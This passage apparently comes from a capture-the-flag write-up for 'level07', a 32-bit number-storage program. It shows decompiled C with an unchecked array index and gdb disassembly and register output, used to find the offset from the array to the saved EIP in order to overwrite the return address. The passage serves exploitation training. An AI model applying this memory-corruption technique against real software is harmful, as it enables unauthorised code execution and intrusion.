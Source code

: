 The addresses are in the array, but are not overwriting the EIP, and that's what we are going to do.

We need to find a way to insert the value at the EIP.

When we call the read_number() function :


```c
int read_number(int a1)
{
  int unum;

  printf(" Index: ");
  unum = get_unum();
  printf(" Number at data[%u] is %u\n", unum, *(_DWORD *)(a1 + 4 * unum));
  return 0;
}
```

The hole array is brought by the call, and that array is stored in %eax before calling read_number().

From here we can try to overwrite the EIP, we are going to need to distance between this eax and the current EIP when read_number() is called, like so :

```
0x08048922 <+511>:   jne    0x8048939 <main+534>
0x08048924 <+513>:   lea    0x24(%esp),%eax
0x08048928 <+517>:   mov    %eax,(%esp)  <<<<<<<<<<<<<<<< Our array is here
0x0804892b <+520>:   call   0x80486d7 <read_number> <<<<<<<<<<<<<<<< read_number() is called
0x08048930 <+525>:   mov    %eax,0x1b4(%esp)
0x08048937 <+532>:   jmp    0x8048965 <main+578>
(gdb) br *main+517
Breakpoint 1 at 0x8048928
(gdb) run
Starting program: /home/users/level07/level07
----------------------------------------------------
  Welcome to wil's crappy number storage service!
----------------------------------------------------
 Commands:
    store - store a number into the data storage
    read  - read a number from the data storage
    quit  - exit the program
----------------------------------------------------
   wil has reserved some storage :>
----------------------------------------------------

Input command: read

Breakpoint 1, 0x08048928 in main ()
(gdb) info f
Stack level 0, frame at 0xffffd720:
 eip = 0x8048928 in main; saved eip 0xf7e45513
 Arglist at 0xffffd718, args:
 Locals at 0xffffd718, Previous frame's sp is 0xffffd720
 Saved registers:
  ebx at 0xffffd70c, ebp at 0xffffd718, esi at 0xffffd710, edi at 0xffffd714, eip at 0xffffd71c
(gdb) info r
eax            0xffffd554       -10924
ecx            0xffffd600       -10752
edx            0xffffd600       -10752
ebx            0xffffd554       -10924
esp            0xffffd530       0xffffd530
ebp            0xffffd718       0xffffd718
esi            0xffffd6ec       -10516
edi            0x8048d65        134516069
```